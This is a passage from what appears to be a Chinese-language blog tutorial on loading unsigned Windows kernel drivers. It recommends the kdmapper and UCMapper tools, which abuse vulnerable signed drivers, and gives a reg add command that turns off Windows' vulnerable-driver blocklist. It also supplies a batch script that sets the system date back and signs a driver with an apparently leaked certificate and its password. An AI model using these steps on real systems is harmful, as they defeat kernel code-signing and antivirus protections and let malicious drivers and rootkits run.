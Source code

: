 ```plain

       return Output[0];
```

后面就是通过总线地址转虚拟地址了，过程比较复杂就不过多描写。通过映射内存后修改 gOption 的值即可

#### 内存映射

内存映射的原理其实很简单，就是 PELOAD，将驱动在内存展开后 call 入口地址即可。但是需要注意的是不能够使用驱动对象。

GITHUB 上有个项目非常出名，叫做 kdmapper：

> [https://github.com/TheCruZ/kdmapper](https://github.com/TheCruZ/kdmapper)

单该项目存在一个问题就是 Windows22h2 无法使用，其原因是 Windows11 将 iqvw64e.sys 拉黑了，解决办法也很简单就是关闭目标计算机的黑名单校验：

```plain
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\CI\Config" /f /t REG_DWORD /v VulnerableDriverBlocklistEnable /d 0
```

当然如果说关闭校验对于存在 360 等来说比较困难也可以考虑使用 nvaudio.sys：

> [https://github.com/gmh5225/UCMapper](https://github.com/gmh5225/UCMapper)

### 过期签名加载

使用过期签名来加载驱动需要修改操作系统时间，修改至签名过期之前即可：

```plain
@echo off

cd %~dp0

@if "x%1" EQU "x" (goto help) else (goto sign)
:help
@echo Usage: sign.bat filename
@echo Note:  Original file will be overrided by the signed one, no backup
@goto :end
:sign

@echo Sign File %1
set message=%DATE%
date 2017.03.01
signtool.exe sign /v /ac CSC3-2010.crt /f current_cert.pfx /p nv1d1aRules /t "http://timestamp.digicert.com" %1
date %message%
:end
```
